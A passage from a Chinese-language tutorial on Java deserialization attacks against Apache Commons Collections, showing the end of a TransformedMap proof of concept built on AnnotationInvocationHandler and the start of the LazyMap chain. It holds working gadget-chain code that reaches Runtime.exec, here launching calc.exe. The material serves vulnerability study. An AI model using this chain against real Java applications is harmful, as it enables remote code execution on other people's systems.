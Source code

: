 ```
        Map outmap = TransformedMap.decorate(innermap, null, chain);

        Class T0WN = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = T0WN.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class,outmap);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        os.writeObject(instance);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("ser.bin"));
        fos.readObject();
    }
}
```

![image-20211201233209350](images/17.png)

这个POC只有在Java 8u71以前的版本中才能执行成功，Java 8u71以后的版本由于`sun.reflect.annotation.AnnotationInvocationHandler`发⽣了变化导致不再可⽤；

在ysoserial里面用的是另外一条链

![image-20211214091500383](images/18.png)

# LazyMap链

## 漏洞分析

从上面的调用链可以看到,在后半段的transform方法并没有变,而是调用transform方法的地方不再是transformedMap,而是LazyMap类

前半部分和TransforedMap链一样

```
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{
                String.class, Class[].class}, new Object[]{
                "getRuntime", null
        }
        ),
        new InvokerTransformer("invoke", new Class[]{
                Object.class, Object[].class}, new Object[]{
                null, null
        }
        ),
        new InvokerTransformer("exec", new Class[]{
                String.class}, new Object[]{
                "calc.exe"
        }
        )
};
ChainedTransformer chain = new ChainedTransformer(transformers);
chain.transform(null);
```
